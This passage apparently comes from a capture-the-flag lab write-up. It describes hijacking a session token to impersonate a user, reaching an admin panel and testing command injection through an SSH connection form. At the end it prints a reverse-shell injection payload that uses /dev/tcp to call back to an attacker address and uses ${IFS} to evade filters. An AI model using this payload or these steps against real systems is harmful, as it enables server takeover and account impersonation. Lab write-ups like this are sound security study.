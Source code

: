 Then I do an incorrect login and curl against the endpoint again:

![[Pasted image 20250612193015.png]]

So it is definitely a session token - I can use this to impersonate the kanderson user.

To do that open the dev tools console in your browser. Check the Application > Storage tab and change the value for the session ID.

![[Pasted image 20250612193056.png]]

Then I try navigating to the /admin route I found with ffuf.

![[Pasted image 20250612193115.png]]

I'm in!

Under mappings I also found an interesting endpoint called /executessh

![[Pasted image 20250612193921.png]]

So maybe in this admin panel there is a place to perform command injection.

At the bottom of the page is some kind of UI for managing the host connections.

![[Pasted image 20250612201240.png]]

I test a few combinations and find that it is trying to open an SSH connection using the webserver - command injection attack enters stage left.

An SSH command looks like this:
```
ssh username@hostname 
```

I spent a long time trying to a command to run after hostname - my thinking that the SSH command finishes then something else could run on the same line

Testing revealed they had very very good filters over that parameter.

It eventually occurred to me to try the other parameter:

![[Pasted image 20250612201620.png]]

so we are the user app

I have to figure out how to abuse this

it seems to be only returning the first line:
![[Pasted image 20250612202128.png]]

When I try the other parameter I start getting error messages back - this is a good sign it means I can try to inject a reverse shell here.
```
kanderson$(bash${IFS}-i${IFS}>&${IFS}/dev/tcp/10.10.14.22/1337${IFS}0>&1)
```
It gets stuck on the &
